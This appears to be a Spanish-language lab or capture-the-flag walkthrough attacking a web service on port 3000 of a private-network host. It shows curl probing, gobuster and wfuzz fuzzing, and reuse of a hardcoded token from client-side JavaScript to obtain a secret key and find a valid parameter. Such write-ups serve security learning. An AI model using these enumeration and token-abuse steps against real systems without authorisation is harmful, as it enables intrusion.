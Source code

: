 Probamos diferentes metodos para el puerto 3000 que viene referenciado en el codigo js
```bash
curl -s -X GET http://192.168.100.32:3000
curl -s -X POST http://192.168.100.32:3000
curl -s -X PUT http://192.168.100.32:3000
```

Realizamos fuzzing de rutas
```bash
gobuster dir -u http://192.168.100.32:3000/ -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 40 -x php,php.back,backup,txt,sh,html,js,java,py
```

Tenemos una carpeta:
```bash
/view                 (Status: 400) [Size: 22]
/public               (Status: 301) [Size: 156] [--> /public/]
/api                  (Status: 400) [Size: 34]
```

Al realizar la peticion a esta ruta, nos responde con lo siguiente
```http
curl -s -X GET http://192.168.100.32:3000/api
{"error":"Parámetro incorrecto."}
```

Probamos el **apiToken** que obtuvimos de esta funcion
```js
function validarClave(a) {
    const claveReal = 'QWERTYCHOCOLATITOCHOCOLATONCHINGON';
    return a === claveReal
}
```
### Ejecucion del Ataque
```bash
# Comandos para explotación
curl -s -X GET http://192.168.100.32:3000/api?token=QWERTYCHOCOLATITOCHOCOLATONCHINGON
{"key":"MI-KEY-SECRETA-12345"}
```

Ahora realizamos la peticion a la siguiente ruta
```bash
curl -s -X GET http://192.168.100.32:3000/view
Parámetro incorrecto. 
```

**Nota** Este es el ejemplo de como encontrar el parametro valido: Necesitamos un parametro, que lo buscamos con la herramienta **wfuzz**
```bash
wfuzz -c -t 200 -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -u "http://192.168.100.32:3000/view?FUZZ=MI-KEY-SECRETA-1234" --hh=21
```

Tenemos el parametro valido:
```http
000001690:   403        0 L      7 W        45 Ch       "key"
```
